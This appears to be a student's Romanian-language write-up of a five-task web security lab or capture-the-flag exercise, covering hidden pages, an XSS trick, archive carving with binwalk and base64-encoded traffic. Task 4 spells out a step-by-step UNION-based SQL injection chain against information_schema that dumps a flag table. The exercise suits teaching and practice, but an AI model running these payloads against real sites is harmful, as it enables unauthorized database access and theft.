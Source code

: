 # MARIN MARIUS DANIEL 332CC

### Task1
- ne conectam la dev-machine folosind `./connect.sh` iar apoi vedem ce adresa ip avem
- scanam porturile disponibile si vedem un `port deschis de http` la o adresa ip
- luam adresa ip si portul de http si le dam in scriptul de `./webtunnel.sh` pentru a ne
conecta pe web la `localhost:8080`
- pe site observam ca pagina de register e fake, si cautam cu inspect element in codul
sursa al site ului si vedem ca link ul bun este `/auth/register_real_one`
- ne facem cont, ne conectam si cautam iar cu inspect element in codul sursa al site
ului si gasim flagul

### Task2
- din hint uri si analiza sursei paginii web observam faptul ca putem comunica cu pisica
boss prin nyan cat (avem XSS simulators doar pentru ei)
- daca ne uitam in main.js observam niste functii pe care am putea sa le apelam ca sa
rezolvam acest task
- logica este aceea de a-i trimite lui nyan cat un mesaj care sa contina un script pe care
sa il trimita pentru a fi executat de catre boss (acesta sa apeleze addFriendRequest cu id ul
nostru)

### Task3
- avem la boss in pagina un hint cu scriptul `backup.sh` care trebuie luat de pe pagina
- observam ca scriptul combina 2 arhive intr una singura si ii pune numele cu o data
generata random intr un interval
- odata luata arhiva, se inspecteaza cu un tool pentru a vedea offset ul headerelor cum
ar fi `binwalk`
- se extrage cu tail offsetul arhivei flag, care se dezarhiveaza si astfel avem acces
la fisierul `flag.txt`

### Task4
- se testeaza manual url-urile site ului si se fac incercari de SQL injection pana se 
observa ca vulnerabilitatea este la adresa `http://localhost:8080/inside/p/`
- se incearca aflarea nr de coloane printr un payload care primeste ca arg nr coloanei
pentru a vedea la ce index apare eroarea (ex: ' order by X -- ;)
- se trimit mai multe atacuri pentru a afla informatia pas cu pas:
  1. se observa ca se afiseaza informatia la userul 3 si apar duplicate => distinct
`' union select distinct 1, 2, group_concat(distinct(table_schema)), 4, 5, 6, 7, 8
from information_schema.tables -- ;`

  observam web_270

  2. `' union select distinct 1, 2, group_concat(table_name), 4, 5, 6, 7, 8 from 
information_schema.tables where table_schema='web_270' -- ;`

  observam flags64173

  3. `' union select 1, 2, group_concat(column_name), 4, 5, 6, 7, 8
from information_schema.columns where table_schema='web_270' and table_name='flags64173' -- ;`

  observam zaflag
  
  4. `' union select 1, 2, zaflag, 4, 5, 6, 7, 8 from flags64173 -- ;`

  observam flag ul

### Task5
- se scaneaza traficul cu tcpdump si se observa ca anumite pachete contin `NYAN.NYAN..`
- se ia partea dintre NYAN si se decodifica cu `base64`

